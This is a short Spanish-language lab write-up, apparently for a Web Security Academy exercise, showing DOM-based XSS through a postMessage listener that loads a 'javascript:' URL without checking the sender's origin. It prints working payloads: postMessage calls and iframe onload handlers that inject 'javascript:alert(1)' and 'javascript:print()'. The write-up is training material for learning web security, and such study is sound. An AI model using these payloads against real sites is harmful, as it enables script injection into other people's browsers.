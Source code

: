 El ataque consiste en enviar desde un iframe un mensaje JSON con un campo type establecido en load-channel y un campo url que contiene un payload en forma de URL JavaScript. El listener interno interpreta el mensaje, valida el tipo y actualiza el iframe sin realizar ninguna comprobación de origen ni sanitización.

El resultado es la ejecución directa de la función print en el navegador de la víctima, demostrando cómo la falta de validación y confianza ciega en los datos recibidos puede derivar en una ejecución remota de código.

----

Para este caso, debemos de enviar en el post Message, 2 valores en formato JSON, al hacerlo en la consola se crea un iframe

```html
postMessage({\"type\":\"load-channel\",\"url\":\"https://google.es\"})
```

Ahora podemos hacer un inyeccion en el parametro de URL:

```html
postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:alert(1)\"}");
```

```html
<iframe width=600px height=600px src="https://burpsuite.com" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:alert(1)\"}","*")'></iframe>

<iframe src="https://0a6f00e50303c9608016129c00c3003e.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'></iframe>

```
